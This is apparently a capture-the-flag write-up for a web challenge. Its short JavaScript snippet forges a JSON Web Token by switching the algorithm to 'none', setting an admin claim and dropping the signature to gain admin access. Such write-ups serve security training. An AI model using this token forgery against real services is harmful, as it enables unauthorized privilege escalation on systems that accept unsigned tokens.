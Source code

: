 # Solution

You could do all of this via the API (especially since it has an "accidentally" exposed swagger doc) or just by using the frontend.

## Register/Login

Register an account and login.

## Attempt to get the flag

Try to get the flag, notice you get a 401 Unauthorized. Inspect the request
and grab the JWT from the Authorization header.

## Inspect JWT

Visit jwt.io and paste in the JWT.
Note the `bsides_is_admin` claim in the payload and the HS256 alg in the header.

## Craft and store the JWT

```js
const tok = localStorage.getItem('jwt')
  .split('.')
  .slice(0, 2)
  .map(v => JSON.parse(atob(v)))
tok[0].alg = "none"
tok[1].bsides_is_admin = true
localStorage.setItem('jwt', tok.map(v => btoa(JSON.stringify(v))).join(".") + ".")
```

## Get the flag

Hit "Get flag"!
